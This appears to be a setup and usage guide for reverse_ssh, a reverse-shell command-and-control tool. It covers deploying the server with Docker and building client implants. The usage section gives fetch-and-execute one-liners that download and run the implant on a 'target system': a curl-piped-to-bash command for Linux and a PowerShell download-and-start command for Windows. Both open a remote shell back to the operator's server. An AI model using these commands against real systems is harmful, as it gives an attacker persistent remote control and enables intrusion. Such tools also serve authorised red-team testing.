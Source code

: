 # Requirements

- Server

---

# Setup Guide

### Step 1: Clone the Repository
1. Download the reverse SSH repository:
```
git clone https://github.com/NHAS/reverse_ssh.git
```

### Step 2: Generate an SSH Key Pair
1. Run the following command to create a new SSH key pair:
```
ssh-keygen -t rsa -b 4096 -C "email@gmail.com"
```

### Step 3: Get the Server IP Address
1. Retrieve your server's IP address:
```
ip a
```

### Step 4: Run Reverse SSH with Docker
1. Start the Docker container using your server's IP on port `3232`:
```
docker run -p3232:2222 -e EXTERNAL_ADDRESS=<your.rssh.server.internal>:3232 -e SEED_AUTHORIZED_KEYS="$(cat $HOME/.ssh/id_rsa.pub)" -v ./data:/data reversessh/reverse_ssh
```

### Alternative: Run Reverse SSH with Docker Compose
1. Use the following `docker-compose.yml` configuration:
```
services:
 reversessh:
   image: reversessh/reverse_ssh
   ports:
     - "3232:2222"
   environment:
     - EXTERNAL_ADDRESS=<your.rssh.server.internal>:3232
     - RSSH_CONSOLE_LABEL=c2.label
     - RSSH_LOG_LEVEL=INFO # DISABLED, INFO, WARNING, ERROR, FATAL
     - SEED_AUTHORIZED_KEYS=${SSH_PUBLIC_KEY}
   volumes:
     - ./data:/data
```

---

# Usage

### Step 1: Connect to the Server Console
```
ssh your.rssh.server.internal -p 3232
```

### Step 2: List Available Commands
```
help
```

### Step 3: Build a New Client and Host on the Web Server
#### Linux Client
1. Create a executable for windows
```
link
```
2. Download and execute the binary on a target system:
```
curl http://192.168.0.11:3232/4bb55de4d50cc724afbf89cf46f17d25.sh | bash
```

#### Windows Client
1. Create a executable for windows
```
link --goos windows
```
2. Download and execute the binary on Windows:
```
Invoke-WebRequest -Uri http://192.168.1.140:3232/4ac5d816227cbfba9580a510af5272e2 -OutFile test.exe; Start-Process .\test.exe
```
